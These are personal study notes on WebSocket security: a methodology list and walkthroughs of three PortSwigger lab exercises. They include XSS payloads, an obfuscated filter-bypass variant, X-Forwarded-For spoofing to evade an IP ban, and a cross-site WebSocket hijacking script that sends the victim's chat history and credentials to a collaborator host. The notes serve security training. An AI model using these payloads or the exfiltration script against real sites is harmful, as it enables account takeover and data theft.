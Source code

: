 # Web Sockets Notes

[Portswigger](https://portswigger.net/web-security/websockets)

## Methodology

- intercept websocket traffic and input xss payloads to test
- check for how the chat reloads past chat history with no csrf tokens being used
- if blocked based on IP user the `X-Forwarded-For: 1.1.1.1` header to spoof IP address

## Labs Walkthrough

### Manipulating WebSocket messages to exploit vulnerabilities

Background:  
```This online shop has a live chat feature implemented using WebSockets. Chat messages that you submit are viewed by a support agent in real time. To solve the lab, use a WebSocket message to trigger an alert() popup in the support agent's browser```

- click `live chat` and send a message
- in burp go to the websockets history tab and observe that the chat message has been sent via a websocket message
- send a new message containing a `<` character
- in burp notice the `<` character has been HTML encoded by the client before sending
- put on burp intercept and send another message
- change the value of the intercepted message with `<img src=1 onerror='alert(1)'>` and forward it

### Cross-site WebSocket hijacking

Background: ```To solve the lab, use the exploit server to host an HTML/JavaScript payload that uses a cross-site WebSocket hijacking attack to exfiltrate the victim's chat history, then use this gain access to their account. ```

- click `live chat` and send a message
- reload the page
- in proxy observe in the websockets history tab the `"READY"` command retrieves past chat messages from the server
- find the websocket handshake request and observe no csrf tokens are used
- right click on the handshake and select `Copy URL`
- in the browser go to exploit server and paste the following template into the `Body` section:

```
<script>
    var ws = new WebSocket('wss://your-websocket-url');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

- click view exploit
- poll for interactions in collaborator to validate the attack is successful
- deliver exploit to victim
- poll collaborator and find the victims creds to log in as them

### Manipulating the WebSocket handshake to exploit vulnerabilities

background:  ```It has an aggressive but flawed XSS filter. To solve the lab, use a WebSocket message to trigger an alert() popup in the support agent's browser```

- click `live chat` and send a message
- In Burp Proxy, go to the WebSockets history tab, and observe that the chat message has been sent via a WebSocket message
- send this request to repeater and send a basic xss payload in the message `<img src=1 onerror='alert(1)'>`
- observe we get blocked
- click `reconnect` and observe the connection attempt fails because your IP address has been banned
- add this header to spoof our IP address `X-Forwarded-For: 1.1.1.1`
- click connect to reconnect
- send this obfuscated payload `<img src=1 oNeRrOr=alert`1`>`
